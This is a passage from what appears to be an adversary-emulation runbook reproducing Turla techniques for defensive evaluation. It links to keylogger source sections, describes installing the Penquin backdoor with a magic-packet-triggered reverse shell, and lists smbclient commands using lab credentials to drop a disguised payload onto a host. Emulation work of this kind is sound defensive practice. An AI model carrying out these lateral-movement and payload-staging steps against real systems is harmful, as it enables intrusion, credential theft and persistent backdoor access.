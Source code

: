 :heavy_exclamation_mark: Verify that the keystrokes were logged containing the
website information and Adalwolfa's SSH credentials.

### :moyai: Source Code

* [Keylogger](Keylogger_README.md)
  * [Current hostname discovery](keylogger.cpp#L41)
  * [Token manipulation and session discovery to restart in active session](keylogger.cpp#L579)
  * [Keylogging hook routine](keylogger.cpp#L349)
  * [Set keylogging hook](keylogger.cpp#L719)
  * [Active window discovery](keylogger.cpp#L419)

### :microscope: Cited Intelligence

* <https://securelist.com/the-epic-turla-operation/65545/>
* <https://www.ncsc.admin.ch/ncsc/en/home/dokumentation/berichte/fachberichte/technical-report_apt_case_ruag.html>
* <https://blog.talosintelligence.com/2021/09/tinyturla.html>
* <https://www.welivesecurity.com/2017/03/30/carbon-paper-peering-turlas-second-stage-backdoor/>

<br>

## Test 7: Penquin

:microphone: `Voice Track:`

Test 7 emulates Turla laterally moving to the Linux Apache server and
installing Penquin. Once Penquin's sniffer has been installed, a magic packet
is sent to the Apache server, from which the sniffer component of Penquin
parses the IP address to connect to, and triggers the establishment of a
reverse shell.

---

### :biohazard: Procedures

:arrow_right: From the "smbclient" tab on the Kali Linux machine, copy over
Penquin and pscp.exe to `khabibulin (10.20.20.104)`:

```bash
smbclient -U 'skt.local\adalwolfa'%'Password2!' //10.20.20.104/C$ -c 'put hsperfdata.zip Windows\Temp\tmp504e.tmp'
smbclient -U 'skt.local\adalwolfa'%'Password2!' //10.20.20.104/C$ -c 'put pscp.exe Windows\System32\pscp.exe'
```

:arrow_right: Switch to your RDP session to `khabibulin (10.20.20.104)`
or, if one was not opened from a previous step, open a new RDP session to
`khabibulin (10.20.20.104)` as `adalwolfa`:

| Username   | Password |
| :--------: | :---------------: |
| skt\adalwolfa  | Password2! |
